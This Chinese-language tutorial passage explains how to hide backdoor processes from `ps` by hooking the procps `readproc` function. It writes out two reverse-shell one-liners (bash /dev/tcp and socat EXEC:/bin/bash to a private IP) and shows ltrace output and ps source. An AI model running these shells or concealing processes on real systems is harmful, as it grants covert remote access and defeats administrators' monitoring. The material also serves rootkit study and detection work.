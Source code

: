 在 `ps` 的結果中隱藏下面兩種簡單的後門

1. `bash -i >& /dev/tcp/192.168.100.100/9999 0>&1`
2. `socat TCP:192.168.100.100:9999 EXEC:/bin/bash`

### 要 hook 哪個函式

首先我們可以用 `ltrace` 看 `ps` 跑起來呼叫了哪些 library 的函式  

```c
...
fwrite(" [jfsCommit]\nhe]\n4\n0\n\nstart\ngrou"..., 13, 1, 0x7fbfcd303760)  = 1
readproc(0x55e061b12f90, 0x55e0609d1540, 13, 1024)                          = 0x55e0609d1540
escape_str(0x7fbfcd90b090, 0x55e0609d1740, 0x20000, 0x7fff6f748044)         = 4
strlen("root")                                                              = 4
fwrite("root", 4, 1, 0x7fbfcd303760)                                        = 1
...
```

會發現 `readproc` 一直出現，查看一下 man page

```man
NAME
       readproc, freeproc  - read information from next /proc/## entry

SYNOPSIS
       #include <proc/readproc.h>

       proc_t* readproc(PROCTAB *PT, proc_t *return_buf);
       void freeproc(proc_t *p);
```

那我們就在 `ps` 的原始碼中找一下 `readproc` 的用法，如下

```c procps-3.2.8/ps/display.c >331
  ptp = openproc(needs_for_format | needs_for_sort | needs_for_select | needs_for_threads);
  if(!ptp) {
    fprintf(stderr, "Error: can not access /proc.\n");
    exit(1);
  }
  memset(&buf, '#', sizeof(proc_t));
  switch(thread_flags & (TF_show_proc|TF_loose_tasks|TF_show_task)){
  case TF_show_proc:                   // normal non-thread output
    while(readproc(ptp,&buf)){}}
```

{% admonition question "如何取得 ps 原始碼" %}
    `ps` 這個指令是來自 `procps`，可以從 [procps.sourceforge.net](http://procps.sourceforge.net/) 下載  
    另外其他基本的 shell 指令的原始碼則可以從 [www.gnu.org/software/coreutils](https://www.gnu.org/software/coreutils/) 下載
{% endadmonition %}

* 基本上就是先 `openproc` 然後再用 `readproc` 一次讀一個 process entry
* `ptp` 的型態是 [`PROCTAB*`](https://fossies.org/dox/procps-3.2.8/structPROCTAB.html)，裡面有 linked list 的結構，讓程式能找到下一個 process
* `buf` 的型態是 [`proc_t*`](https://fossies.org/dox/procps-3.2.8/structproc__t.html)，包含了 process 的資訊
* 那我們就去 hook `readproc` 這個函式，把想隱藏的 procss 跳過
